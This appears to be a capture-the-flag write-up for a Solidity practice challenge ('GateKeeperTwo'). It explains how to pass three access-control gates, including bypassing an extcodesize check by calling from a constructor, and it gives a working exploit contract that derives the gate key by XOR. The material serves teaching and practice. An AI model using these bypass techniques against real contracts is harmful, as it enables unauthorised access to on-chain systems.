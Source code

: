 ### Goals

Register as entrant

### Exploit

We need to call `enter()` with proper gateKey to pass the modifiers and set us as entrant.

### Code

Gate 1

We need to call it through smart contract to pass this check.

Gate2

Following assembly code checks if there is any storage occupied under caller address, which for smart contracts would evaluate to true. But we can bypass it if we call it enter in `constructor()` of our smart contract.

```
assembly {
    x := extcodesize(caller())
}
```

Gate 3

Since we need to compute the gateKey from msg.sender which we don't know until we deploy contract we would neet to do this inside constructor.

```code
contract Gate {
    constructor(address _target) {
        bytes8 gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
        _target.call(abi.encodeWithSignature("enter(bytes8)", gateKey));
    }
}
```

Deploy contract and pass GateKeeperTwo address.

Done!
